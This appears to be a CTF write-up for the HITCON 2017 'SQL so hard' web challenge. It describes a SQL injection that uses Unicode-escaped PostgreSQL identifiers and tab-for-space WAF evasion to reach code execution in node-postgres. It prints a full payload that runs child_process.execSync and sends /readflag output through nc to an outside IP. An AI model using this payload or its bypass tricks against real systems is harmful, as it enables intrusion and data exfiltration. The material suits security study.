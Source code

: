 # [SQL so hard](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2017/sql-so-hard)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

## tl;dr

`SELECT 1 FROM "\\'"` can be written as `SELECT 1 FROM U&"!005c'" UESCAPE '!'`. Change all spaces to tabs and
the WAF will be happy.

Our final exploit payload for the `username` field is:

```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```

## details

- be me
- know nothing about mysql
- know nothing about [`max_allowed_packet`](https://dev.mysql.com/doc/refman/5.7/en/packet-too-large.html)
- set up local env with postgres, node and `npm i pg@7.1.0` without mysql
- reproduce the [original vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability) (given as hint)
- spend hours researching unicode combining characters and diacritics
- find out unicode is not going to help
- see that we **definitely need** backslashes in the field name to exploit the vulnerable javascript literal
- start digging into `node pg`-s query parser
- learn that the field names are not parsed on the client side but are reflected from the server
- consult the PostgreSQL documentation
- find interesting [unicode quoted identifiers](https://www.postgresql.org/docs/9.5/static/sql-syntax-lexical.html#SQL-SYNTAX-IDENTIFIERS)
- assemble query from `returning` clause, tabs and the above literals
- celebrate the RCE
- find out that `require` is not defined in `Function("require")()` calls in node modules
- use `process.mainModule.require`
- spend another half an hour wondering why do all the reverse shells close the connection immediately
- give up and just execute `ls /|nc xxx`
- find and execute `/readflag|nc xxx`
- `hitcon{if_you_dont_know_why_plz_check_mysql_max_allowed_packet}`
- submit, be surprised about what might the flag possibly mean and move on

